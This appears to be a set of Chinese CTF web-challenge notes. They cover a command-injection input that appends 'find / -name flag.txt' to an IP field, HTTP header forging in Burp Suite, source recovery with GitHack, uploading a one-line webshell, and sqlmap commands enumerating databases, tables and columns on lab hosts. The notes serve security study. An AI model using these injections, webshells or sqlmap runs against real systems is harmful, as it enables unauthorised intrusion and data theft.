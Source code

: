 <a name="o0af-1706552572481"></a>127.0.0.1 | find / -name flag.txt

<a name="mfj5-1706552563570"></a>**2. burp suit**

<a name="ejne-1706555844449"></a>**.禁止重定向**

<a name="vhgv-1706555818735"></a>**.HTTP伪造**

burp suit伪造host

X-Forwarded-For:123.123.123

<a name="rai0-1706554953119"></a>Referer:www.google.com

<a name="ns2g-1706555837745"></a>**.抓包（packet capture）**

<a name="yjgv-1711038686456"></a>intercept is on 抓取请求报文修改(js校验后进行截取-越过js校验)

<a name="25ml-1711038863007"></a>抓包（packet capture）就是将网络传输发送与接收的数据包进行截获、重发、编辑、转存等操作，也用来检查网络安全。抓包也经常被用来进行数据截取等。

<a name="mdus-1711038672286"></a>**3.GitHack**

<a name="cv6e-1718090818234"></a>根据.git获得源码

<a name="cfex-1725028078313"></a>**4. PHP 源码审核**

<a name="wwg5-1725028101129"></a>根据源码逆向出flag

<a name="81bt-1725028090449"></a>**5. webshell后门**

<a name="tbag-1734298172265"></a>upload1

<a name="lsax-1734303795677"></a>上传一句话木马文件，获取webshell后门访问系统。

<a name="tzwc-1734802761298"></a>webshell指恶意后门程序或代码注入，获得网站的远程控制。webshell核心就是危险函数，即系统命令执行函数和代码执行函数。

<a name="2pew-1734808259139"></a>**6. sqlmap注入**

<a name="7his-1734979128225"></a>NewsCenter

<a name="yykk-1734808287412"></a>需要准备python环境

<a name="dqyn-1734808270634"></a>sqlmap -u <http://192.168.100.161:53459> --data "search=df"

<a name="g5hv-1711038672430"></a>**shift 右键打开powershell （wsl linux, win版docker安装了wsl**

1\.获取注入点

python3 sqlmap.py -u http://61.147.171.105:49258/ --data "search=df"

python开始sql数据库扫描注入。

2\.获取数据库信息

python3 sqlmap.py  -u http://61.147.171.105:49258/ --data "search=df" -dbs

3\.获取库内表信息

python3 sqlmap.py  -u http://61.147.171.105:49258/ --data "search=df" -D news --tables

4\.获取表内字段信息

python3 sqlmap.py  -u http://61.147.171.105:49258/ --data "search=df" -D news -T secret\_table --columns
